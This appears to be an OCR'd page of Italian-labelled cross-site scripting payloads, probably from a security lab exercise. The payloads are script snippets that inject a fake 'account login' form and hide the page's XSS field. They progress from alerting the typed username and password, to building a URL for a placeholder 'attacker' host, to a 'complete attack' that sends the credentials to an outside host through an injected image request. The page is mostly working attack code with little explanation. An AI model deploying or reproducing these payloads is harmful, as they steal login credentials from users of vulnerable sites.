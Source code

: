 • solo alert







<script>function hack(){ stringa="username = "+ document.forms[1].user.value + ", password =" + document.forms[1].pass.value + ""; alert(stringa);} document.getElementsByName("XSS")[0].style.visibility="hidden"; </script><form><br><br><HR><H3>This feature requires account login:</H3 ><br><br>Enter Username:<br><input type="text" id="user" name="user"><br>Enter Password:<br><input type="password" name = "pass"><br><input type="submit" name="login" value="login" onclick="hack()"></form><br><br><HR> 


• alert dell'evil url







<script>function hack(){
  stringa="?username="+ document.forms[1].user.value + "&password=" + document.forms[1].pass.value + ""; 
  evil_url="http://attacker"+ stringa + ""; 
  alert(evil_url) }
  
  document.getElementsByName("XSS")[0].style.visibility="hidden";

</script>

<form>
<br><br><HR><H3>This feature requires account login:</H3 >
<br><br>Enter Username:<br>
<input type="text" id="user" name="user">
<br>Enter Password:<br><input type="password" name = "pass"><br>
<input type="submit" name="login" value="login" onclick="hack()">
</form>
<br><br><HR>





• attacco completo







<script>function hack(){stringa="?username="+ document.forms[1].user.value + "&password=" + document.forms[1].pass.value + ""; evil_url="http://cris.unimo.it/fakeimage.img"+ stringa + ""; document.write("<img src=\"" + evil_url + "\">") } document.getElementsByName("XSS")[0].style.visibility="hidden";</script><form><br><br><HR><H3>This feature requires account login:</H3 ><br><br>Enter Username:<br><input type="text" id="user" name="user"><br>Enter Password:<br><input type="password" name = "pass"><br><input type="submit" name="login" value="login" onclick="hack()"></form><br><br><HR>







 - versione con solo la stampa della stringa statica per dimostrare il funzionamento con una immagine esistente
<script>function hack(){document.write("<img src=\"http://upload.wikimedia.org/wikipedia/en/b/bc/Wiki.png\"\>"); } </script><form><br><br><HR><H3>This feature requires account login:</H3 ><br><br>Enter Username:<br><input type="text" id="user" name="user"><br>Enter Password:<br><input type="password" name = "pass"><br><input type="submit" name="login" value="login" onclick="hack()"></form><br><br><HR>
